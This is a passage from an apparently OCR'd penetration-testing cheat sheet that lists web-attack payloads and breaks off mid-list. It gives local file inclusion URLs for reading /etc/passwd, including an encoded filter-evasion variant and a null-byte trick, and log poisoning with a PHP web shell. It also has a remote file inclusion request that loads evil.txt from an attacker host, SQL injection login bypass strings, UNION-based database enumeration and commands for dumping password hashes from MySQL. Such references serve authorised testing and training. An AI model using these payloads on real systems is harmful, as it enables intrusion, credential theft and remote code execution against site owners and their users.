     -   LFI - Download passwords file
        [*http://$ip/index.php?page=/etc/passwd*](about:blank)
        [*http://$ip/index.php?file=../../../../etc/passwd*](about:blank)

    -   LFI - Download passwords file with filter evasion
        [*http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd*](about:blank)

    -   Local File Inclusion - In versions of PHP below 5.3 we can
        terminate with null byte
        GET
        /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00

    -   Contaminating Log Files `<?php echo shell_exec($_GET['cmd']);?>`

    -   For a Remote File Inclusion look for php code that is not  sanitized and passed to the PHP include function and the php.ini
        file must be configured to allow remote files

        */etc/php5/cgi/php.ini* - "allow_url_fopen" and "allow_url_include" both set to "on"

        `include($_REQUEST["file"].".php");`

    -   Remote File Inclusion

         `http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt `

         `<?php echo shell\_exec("ipconfig");?>`

-   <span id="_mgu7e3u7svak" class="anchor"><span id="_Toc480741820" class="anchor"></span></span>Database Vulnerabilities
    ----------------------------------------------------------------------------------------------------------------------

    -   Grab password hashes from a web application mysql database called “Users” - once you have the MySQL root username and        password

              mysql -u root -p -h $ip
              use "Users"
              show tables;
              select \* from users;

    -   Authentication Bypass

              name='wronguser' or 1=1;
              name='wronguser' or 1=1 LIMIT 1;

    -   Enumerating the Database

        `http://192.168.11.35/comment.php?id=738)'`

        Verbose error message?

        `http://$ip/comment.php?id=738 order by 1`

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6  `

        Determine MySQL Version:

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,@@version,6  `

        Current user being used for the database connection:
